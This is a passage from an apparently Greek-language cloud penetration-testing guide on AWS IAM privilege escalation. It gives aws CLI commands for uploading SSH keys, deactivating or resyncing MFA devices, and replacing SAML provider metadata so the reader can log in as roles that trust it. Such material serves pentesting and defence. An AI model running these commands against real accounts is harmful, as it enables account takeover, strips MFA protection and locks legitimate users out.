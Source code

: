 **Exploit for SSH Key Upload:**
```bash
aws iam upload-ssh-public-key --user-name <username> --ssh-public-key-body <key_body>
```
**Exploit για την απενεργοποίηση του MFA:**
```bash
aws iam deactivate-mfa-device --user-name <username> --serial-number <serial_number>
```
**Impact:** Έμμεση κλιμάκωση προνομίων με την ενεργοποίηση πρόσβασης σε CodeCommit ή την απενεργοποίηση της προστασίας MFA.

### **`iam:ResyncMFADevice`**

Επιτρέπει τον επανασυγχρονισμό μιας συσκευής MFA, ενδεχομένως οδηγώντας σε έμμεση κλιμάκωση προνομίων μέσω χειρισμού της προστασίας MFA.

**Εντολή Bash:**
```bash
aws iam resync-mfa-device --user-name <username> --serial-number <serial_number> \
--authentication-code1 <code1> --authentication-code2 <code2>
```
**Επίπτωση:** Έμμεση κλιμάκωση προνομίων με την προσθήκη ή τον χειρισμό συσκευών MFA.

### `iam:UpdateSAMLProvider`, `iam:ListSAMLProviders`, (`iam:GetSAMLProvider`)

Με αυτά τα δικαιώματα μπορείτε να **αλλάξετε τα XML μεταδεδομένα της SAML σύνδεσης**. Στη συνέχεια, μπορείτε να καταχραστείτε τη **SAML federation** για να **login** με οποιοδήποτε **role που την εμπιστεύεται**.

Σημειώστε ότι κάνοντας αυτό **legit users won't be able to login**. Ωστόσο, μπορείτε να αποκτήσετε το XML, να το αντικαταστήσετε με το δικό σας, να κάνετε login και να επαναφέρετε τα προηγούμενα.
```bash
# List SAMLs
aws iam list-saml-providers

# Optional: Get SAML provider XML
aws iam get-saml-provider --saml-provider-arn <ARN>

# Update SAML provider
aws iam update-saml-provider --saml-metadata-document <value> --saml-provider-arn <arn>

## Login impersonating roles that trust the SAML provider

# Optional: Set the previous XML back
aws iam update-saml-provider --saml-metadata-document <previous-xml> --saml-provider-arn <arn>
```
> [!NOTE]
> TODO: Ένα εργαλείο ικανό να δημιουργεί το SAML metadata και να κάνει login με ένα συγκεκριμένο role

### `iam:UpdateOpenIDConnectProviderThumbprint`, `iam:ListOpenIDConnectProviders`, (`iam:`**`GetOpenIDConnectProvider`**)
